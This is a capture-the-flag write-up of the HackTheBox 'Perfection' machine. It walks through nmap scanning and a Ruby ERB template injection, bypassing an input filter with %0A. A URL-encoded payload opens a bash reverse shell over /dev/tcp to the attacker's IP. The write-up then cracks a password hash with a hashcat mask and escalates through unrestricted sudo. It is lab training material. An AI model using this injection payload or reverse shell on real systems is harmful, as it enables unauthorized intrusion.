 # Perfection machine from [HackTheBox](https://www.hackthebox.com/)

Target IP: 10.10.11.253

### Topics / tools
* [SSTI](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#erb-ruby) using Ruby and bypassing special character restriction
* Hashcat for brute forcing a hash using [masks](https://hashcat.net/wiki/doku.php?id=mask_attack)

## Enumeration and reconnaissance
As always we start enumerating the target machine 
``` bash
nmap -sS -p- -n --min-rate 5000 -vvv -oG open_ports 10.10.11.253
```
After finding ports 22 (SSH) and 80 (HTTP) open we use nmap script engine to obtain more information, such as services running, versions and any information the default scripts may retrieve
``` bash
nmap -sCV -p22,80 -vvv --min-rate 5000 -n -oN target_ports 10.10.11.253
```
We don't see much more valuable information, so let's explore the http server.

## Gaining access to target machine

In the browser we go to `http://10.10.11.1253` and see a very simple application called 'Weighted Grade Calculator'. The tab 'Calculate your weighted grade' redirect us to a page where are several fields for us to add grade notes, it's name and the weight. After filling some of those rows if we press the button below we get a result showing the result of the weighted grade, so far so good.

Using Burpsuite we can try to tamper with the payload request, modifying either the grades, weights or the category. After playing a while with it we can confirm that there is some level of input sanitization because we can't add strings as grade nor adding weights that adds to more than 100.
But something caught up my attention, when using special characters in the payload, such as `'<%(`, we received a response saying "invalid input". 
Doing some reasearch online it appears that using `%0A` work as a payload bypass.

Now that we can bypass this security we should look into potential payloads to vulnerate the machine. Given that the application is doing math operations and thanks to the server response we can see it's using Ruby, let's try some simple Serve Side Template Injection 
[payloads](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#erb-ruby).

The image below shows both the characters used for bypass and the STTI payloads. As we can see in the responsem the first two STTI payloads didn't work out, but the third one did: `<%= 7*7 %>`. One very important detail is that it's URL encoded, so `<%= 7*7 %>` --URL-enconding--> `<%25%3d+7*7+%25>`

<div style="text-align: center;">
  <img src="imgs/SSTI-payloads.png" alt="SSTI Payload" />
</div>

We were able to **execute code in the target machine**!!

Now let's craft a payload that will give us access to the machine:
``` bash
system("bash -c 'bash -i >& /dev/tcp/<MY-IP>/443 0>&1'")
# And let's URL encode that (use your tool of preference)
# Only encoding the special characters is enough
<%25%3d+system("bash -c 'bash+-i+>%26+/dev/tcp/10.10.14.33/443+0>%261'")+%25>
```

On the host machine we start a listener on the same port using netcat
`nc -nlvp 443` and go back to Burpsuite and send the request. It's okey if we don't see any reponse from the server on Burpuiste, we should go to the listener terminal and verify we received a connection from the target machine.

<div style="text-align: center;">
  <img src="imgs/payload.png" alt="Reverse shell payload" />
</div>

As the user 'susan' we can access the `user.txt` flag.
``` bash
> nc -nlvp 443
susan@perfection:~/ruby_app$ ls ~/
ls ~/
Migration
ruby_app
user.txt
```


## Scalating privileges

While playing around from the target machine and inspecting several files I found an intersting one: `cat /var/mail/susan`.
This file contains the format of the password for the susan user: susan_nasus_{a random number from 1 to 1000000000}
![Interesting file](imgs/interesting-file.png)

We could try to brute force that, for sure. But let's looking around a bit more to gain more knowledge of the system.

In the `/home/susan` directory we find a `Migration` folder that contains a file called `pupilpath_credentials.db` and after echoing it's content it happens to contain a hash, most likely the hash of the password.

Susan password hash: 
`abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`


So knowing the hash password along with the format schema we previously found we can use hashcat and build a mask that matches the password format hoping to crack the hash.

Hashcat command
``` bash
hashcat -m 1400 -a 3 <HASH-FILE> susan_nasus_?d?d?d?d?d?d?d?d?d
```
`-m 1400:` the mode 1400 is SHA2-256, the same the SSH server was using acording to nmap \
`- a 3:` we select brute force as attack mode
As per the mask, more information can be found [here](https://hashcat.net/wiki/doku.php?id=mask_attack), the most important thing is we want to match numbers only.

<div style="text-align: center;">
  <img src="imgs/hashcat-passwd.png" alt="Cracking the hash with hashcat" />
</div>

Once hashcat cracks the hash we obtain the password. What can we do with that?
Well one of the goes-to when compromising a machine is running `sudo -l` to see what commands we can run as sudo.
It happens that susan can ran every command as sudo!!

So we just run
``` bash
# switch to root user
> sudo su
> whoami
root
> cat /root/root.txt
```

## Summary

We were able to compromise this machine because of the following vulnerabilities:

* SSTI which allowed us to stablish a reverse shell
* A file containing user hash pasword in plain text
* A file containing the password format in plain text
* The user has sudoer permissions to run any command
